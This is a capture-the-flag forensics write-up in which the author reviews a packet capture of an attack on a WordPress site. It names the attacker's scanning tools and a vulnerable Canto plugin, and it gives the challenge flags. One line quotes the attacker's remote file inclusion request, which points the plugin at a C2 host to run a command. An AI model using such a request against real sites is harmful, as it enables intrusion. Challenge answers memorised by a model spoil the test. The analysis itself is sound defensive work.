

# WordPress - 3
[Hard]

Same file from WordPress - 1

Q1. Mention the names of the tools that the attacker used in the attack. (alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format `0xL4ugh{A1_A2_A3}`

Example: `0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}`

---

Solution:

I used `(ip.src == 192.168.204.132) && http.request` to check the requests from the attacker again...

Most, if not all, tools out there makes use of the `User-Agent` for tagging

So we have `User-Agent: WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)\r\n`

The last couple of packets has the following...

`User-Agent: sqlmap/1.7.12#stable (https://sqlmap.org)\r\n`

So Q1 is `sqlmap_WPScan`

For Q2, I tried to look for `plugin` related attacks but couldn't find any using the filter earlier.

So I used `(http) && !(http.host == "tlu.dl.delivery.mp.microsoft.com" || tcp.dstport == 80) && (ip.src == 192.168.204.128)` (excluded Microsoft related requests)

The last few packets are interesting...

A reuqest was done to `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami`

This is likely the vulnerable plugin!

So the answer for Q2 is `172.26.211.155:8000_canto`

Finally, let's go to Q3!

Searching for `"canto" "wp_abspath"` lead to the following:

https://nvd.nist.gov/vuln/detail/CVE-2023-3452
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/canto/canto-304-unauthenticated-remote-file-inclusion

I couldn't find any mention of the canto version in the network requests, so I decided to use the version mentioned in the advisory: `3.0.4_CVE-2023-3452`

So overall, the flag is `0xL4ugh{sqlmap_WPScan_172.26.211.155:8000_canto_3.0.4_CVE-2023-3452}`

However, it didn't work, so I tried to remove the port number from the C2 in case the author wants the IP address only....

Flag: `0xL4ugh{sqlmap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`
and it worked! lol

